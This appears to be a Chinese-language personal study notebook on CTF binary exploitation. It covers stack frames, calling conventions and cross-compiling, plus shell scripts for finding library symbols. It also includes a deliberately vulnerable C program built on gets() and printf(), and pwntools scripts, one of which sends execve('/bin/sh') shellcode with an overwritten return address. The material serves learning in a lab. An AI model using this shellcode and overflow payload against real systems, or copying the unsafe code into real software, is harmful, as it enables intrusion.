#include <stdlib.h>
#include <unistd.h> 
char sh[]="/bin/sh"; 

int init_func(){
	setvbuf(stdin,0,2,0); 
	setvbuf(stdout,0,2,0); 
	setvbuf(stderr,0,2,0); 
	return 0;
}

int func(char *cmd){ 
	system(cmd); 
	return 0; 
}

int main(){ 
	init_func(); 
	char a[8] ={}; 
	char b[8] ={}; 
	puts("input: ");
	gets(a);

	printf(a); 
	if(b[0]=='b'){
		func(sh);
	}
	return 0; 
}

```

* 针对`gets(a);`前后的反汇编代码

```assembly

   0x00001360 <+95>:    sub    esp,0xc
   0x00001363 <+98>:    lea    eax,[ebp-0x1c]
   0x00001366 <+101>:   push   eax
   0x00001367 <+102>:   call   0x10d0 <gets@plt>
   0x0000136c <+107>:   add    esp,0x10

```

这里先看一下内存中的栈和堆的分布，栈顶在小地址，栈底在大地址，入栈为栈顶寄存器减小


#### leave&ret

这两个指令常常是在调用函数后返回前的处理

```assembly
call funx  ; push rip  ; 将下一条指令的地址（返回地址）压入栈中
		  ; jmp target ; 无条件跳转到目标地址

; 调用进入一个函数后，要进行的操作
push rbp  ; 将当前函数的栈底入栈
mov rbp,rsp  ; 将当前函数的栈顶作为调用函数的栈底，当前栈顶和栈底相等
sub rsp,0x20  ; 栈顶移动，为新的函数开辟空间
; ......
leave  ; mov rsp,rbp;pop rbp; 
ret ; pop rip ; 设置返回地址
```

* leave：mov esp,ebp;pop ebp # 这里清除了调用函数后新增的栈空间
* ret：pop eip # 设置返回地址

#### 函数调用和参数传递

| **特性**           | **cdecl（x86）**                                             | **x86-64 System V ABI**                                      |
| ------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **适用架构**       | 32 位 x86                                                    | 64 位 x86-64                                                 |
| **参数传递方式**   | 全部通过栈传递（从右到左入栈）                               | 前 6 个参数通过寄存器（RDI, RSI, RDX, RCX, R8, R9），其余通过栈传递 |
| **栈清理责任**     | 调用者负责清理栈（`add esp, n`）                             | 被调用者负责清理栈（函数返回前自动调整 ESP）                 |
| **返回值大小**     | 最大 64 位（通过 EAX/EDX 组合返回）                          | 最大 128 位（通过 RAX/RDX 组合返回）                         |
| **寄存器保存规则** | 调用者保存：EAX, ECX, EDX 被调用者保存：EBX, EBP, ESI, EDI, ESP | 调用者保存：RAX, RDI, RSI, RDX, RCX, R8-R11 被调用者保存：RBX, RBP, R12-R15, RSP |
| **可变参数处理**   | 依赖栈传递参数的相对位置                                     | 前 6 个参数通过寄存器，需额外处理寄存器到栈的映射            |

### 编译

#### arm64编译程序

```shell
sudo apt install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu
gcc-aarch64-linux-gnu main.c -o main
```

#### musl编译程序

```shell
wget https://musl.cc/aarch64-linux-musl-cross.tgz
tar -xvf aarch64-linux-musl-cross.tgz
cd aarch64-linux-musl-cross
aarch64-linux-gnu-gcc -static main.c -o rc_static
```

### shell脚本整理

#### 部署PWN题

```shell
socat TCP-LISTEN:<端口>,reuseaddr,fork EXEC:<程序路径>,stderr
```

#### 查找字符串在哪个动态链接库中

```shell
#!/bin/sh

if [ $# -ne 2 ]; then
    echo "Usage: $0 <binary> <search_string>"
    exit 1
fi

TARGET="$1"
SEARCH="$2"
PROCESSED="/tmp/processed_libs.txt"
> "$PROCESSED"

resolve_deps() {
    bin="$1"

    grep -qxF "$bin" "$PROCESSED" && return
    echo "$bin" >> "$PROCESSED"

    echo "$bin"

    ldd "$bin" 2>/dev/null | awk '/=>/ { print $(NF-1) }' | while read -r dep; do
        if [ -f "$dep" ]; then
            resolve_deps "$dep"
        fi
    done
}

echo "Searching for '$SEARCH' in dependencies of $TARGET"
resolve_deps "$TARGET" | while read -r lib; do
    if strings "$lib" 2>/dev/null | grep -q "$SEARCH"; then
        echo "Found '$SEARCH' in $lib"
    fi
done
```

#### 查找函数在那个动态链接库中(依赖符号表)

```shell
#!/bin/sh

if [ -z "$1" ] || [ -z "$2" ]; then
    echo "用法: $0 <可执行文件路径> <函数名>"
    exit 1
fi

TARGET="$1"
FUNC_NAME="$2"

# 创建临时文件避免重复处理
PROCESSED="/tmp/processed_libs_$$.txt"
> "$PROCESSED"

resolve_deps() {
    local bin="$1"

    grep -qxF "$bin" "$PROCESSED" && return
    echo "$bin" >> "$PROCESSED"

    if [ ! -f "$bin" ]; then
        return
    fi

    for tool in "nm -D" "objdump -T" "readelf -s" "strings"; do
        CMD=$(echo "$tool $bin | grep $FUNC_NAME")
        RESULT=$(eval "$CMD" 2>/dev/null)
        if [ -n "$RESULT" ]; then
            echo "===> Found by: $tool $bin"
            echo "$RESULT"
            echo
        fi
    done

    # 递归处理依赖库
    ldd "$bin" 2>/dev/null | awk '/=>/ { print $(NF-1) }' | while read -r dep; do
        [ -f "$dep" ] && resolve_deps "$dep"
    done
}

resolve_deps "$TARGET"

rm -f "$PROCESSED"

```

#### 网络

```shell
ss -tnp

tcpdump -i any port 53

ip route get 192.168.121.35

tcpdump -i eth0 tcp -w eth0_tcp.pcap

export SSL_CERT_FILE=/etc/ssl/certs/burp.pem

export CURL_CA_BUNDLE=/etc/ssl/certs/burp.pem
```


### python

#### pwntools常见脚本

* 远程利用

```python
from pwn import *

io = remote('172.18.8.41', 8888)

io.recvuntil(b'input:')
io.sendline(b'aaaaaaaab')
io.interactive()

```

* 本地利用

```python
from pwn import *

# 设置二进制文件名
context.binary = './vuln'
elf = ELF('./vuln')

# 连接方式：本地运行
io = process(elf.path)

# 接收提示信息
io.recvuntil(b'input:')

# 发送 6 个 a
io.sendline(b'aaaaaa')

# 交互式进入 shell
io.interactive()

```

* pwntools结合gdb

先配置`/bin/pwntools-gdb`，配置其的作用在于，通过脚本调用gdb时，不是原生的gdb，而是带有插件的gdb（有时无需配置，视具体情况而定）

```python
from pwn import *

context.binary = '/home/lideao/C/retShellcode'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = gdb.debug('/home/lideao/C/retShellcode', '''
    b main
    b *main+54                         
    c
''')

shellcdoe = b'\x48\x31\xd2\x48\x31\xf6\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xc0\xb0\x3b\x0f\x05'
nop = b'a'*5
rbp = b'\x00'*8
rsp = b'\x20\xd9\xff\xff\xff\x7f\x00\x00'

# 等待程序跑到输入处
print("exe echo:\n"+io.recvuntil(b'input: ').decode())

payload = shellcdoe + nop + rbp + rsp
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()

```

#####  gdb.debug和gdb.attach的区别

* ` gdb.debug`是调试程序后开始运行，`gdb.attach`是先运行程序再附加调试
